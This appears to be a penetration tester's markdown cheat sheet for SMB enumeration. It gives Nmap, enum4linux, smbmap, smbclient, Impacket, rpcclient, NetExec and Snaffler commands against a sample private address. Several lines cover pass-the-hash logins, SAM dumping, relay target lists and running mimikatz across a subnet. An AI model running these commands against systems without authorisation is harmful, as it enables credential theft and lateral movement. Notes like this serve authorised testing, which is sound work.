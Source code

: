 #enumeration #share-enumeration
# Nmap Enumeration: 
```
/usr/share/nmap/scripts/smb-brute.nse
/usr/share/nmap/scripts/smb-enum-domains.nse
/usr/share/nmap/scripts/smb-enum-groups.nse
/usr/share/nmap/scripts/smb-enum-processes.nse
/usr/share/nmap/scripts/smb-enum-services.nse
/usr/share/nmap/scripts/smb-enum-sessions.nse
/usr/share/nmap/scripts/smb-enum-shares.nse
/usr/share/nmap/scripts/smb-enum-users.nse
/usr/share/nmap/scripts/smb-flood.nse
/usr/share/nmap/scripts/smb-ls.nse
/usr/share/nmap/scripts/smb-mbenum.nse
/usr/share/nmap/scripts/smb-os-discovery.nse
/usr/share/nmap/scripts/smb-print-text.nse
/usr/share/nmap/scripts/smb-protocols.nse
/usr/share/nmap/scripts/smb-psexec.nse
/usr/share/nmap/scripts/smb-security-mode.nse
/usr/share/nmap/scripts/smb-server-stats.nse
/usr/share/nmap/scripts/smb-system-info.nse
```

- nmap --script smb-* -p 139,445, 172.21.0.0
- nmap --script smb-enum-* -p 139,445, 172.21.0.0


# Enum4linux:

- Enum4linux -a 172.21.0.0
- Enum4linux -U 172.21.0.0
- Enum4linux -r 172.21.0.0
- Enum4linux -S 172.21.0.0

# Enum4linux-Ng
https://github.com/cddmp/enum4linux-ng
- Enum4linux 172.21.0.0 -A
- Enum4linux-ng 172.21.0.0 -A -C
- Enum4linux 172.21.0.0 -S
- Enum4linux 172.21.0.0 -K ticket.kirbi -A

# SMBmap:

- smbmap -H 172.21.0.0 -d [domain] -u [user] -p [password]
- smbmap -H 172.21.0.0 -d [domain] -u "" -p ""

## SMBClient-ng

Source: https://github.com/p0dalirius/smbclient-ng

Installation: 
```
pipx install smbclientng
```

Using SMBClient-ng:

- smbclientng -d [domain] -u [user] -p [password] --host 172.21.0.0
- smbclientng -d [domain] -u [user] -H LMHASH:NTHASH --host 172.21.0.0

# SMBClient: 

- smbclient -L 172.21.0.0
- smbclient //172.21.0.0/tmp

Recursively list a directory: 
```
$ smbclient \\\\x.x.x.x\\Folder
smb: \> recurse on             
smb: \> ls
```

# Impacket: 

## Smbclient:
- /usr/share/doc/python3-impacket/examples/smbclient.py username@172.21.0.0
- impacket-smbclient username@172.21.0.0
## Samdump:
- Impackert-sam SMB 172.21.0.0

# RPCclient: 

- rpcclient -U "" -N 172.21.0.0 enumdomusers

# NetExec: 

- netexec smb -L 
- netexec 172.21.0.0 -u Administrator -H [hash] --local-auth
- netexec 172.21.0.0 -u Administrator -H [hash] --share
- netexec smb --gen-relay-list smb-targets.txt 172.21.0.0/24
- netexec smb 172.21.0.0/24 -u user -p 'Password' --local-auth -M mimikatz
- netexec smb x.x.x.x --pass-pol -u '' -p ''

# Polenum:
Note (In Kali):  sudo apt install polenum
- polenum -u '' -p '' -d x.x.x.x

# Snaffler 

Source: https://github.com/SnaffCon/Snaffler
Note: Only works if you have a shell on the windows box

Running Snaffler:

- snaffler.exe -s -o results.txt

 

